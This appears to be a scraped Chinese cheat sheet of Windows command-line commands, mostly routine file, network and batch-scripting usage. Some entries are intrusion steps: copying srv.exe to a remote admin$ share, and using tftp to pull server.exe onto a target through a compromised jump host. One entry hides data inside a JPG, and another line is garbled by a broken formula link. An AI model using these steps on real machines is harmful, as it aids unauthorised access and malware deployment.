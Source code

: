 copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

copy ipadmin![svv.exe c: 或:copyipadmin](https://math.jianshu.com/math?formula=svv.exe%20c%3A%20%E6%88%96%3Acopyipadmin)*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

用参数/e才可连目录下的子目录一起复制到目标地址下。

tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

mem 查看cpu使用情况

attrib 文件名(目录名) 查看某文件（目录）的属性

attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间

date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

set 指定环境变量名称=要指派给变量的字符 设置环境变量

set 显示当前所有的环境变量

set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

pause 暂停批处理程序，并显示出：请按任意键继续....

if 在批处理程序中执行条件处理（更多说明见if命令及变量）

goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）

for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）

echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置

echo 信息 在屏幕上显示出信息

echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中

findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello

find 文件名 查找某文件

title 标题名字 更改CMD窗口标题名字
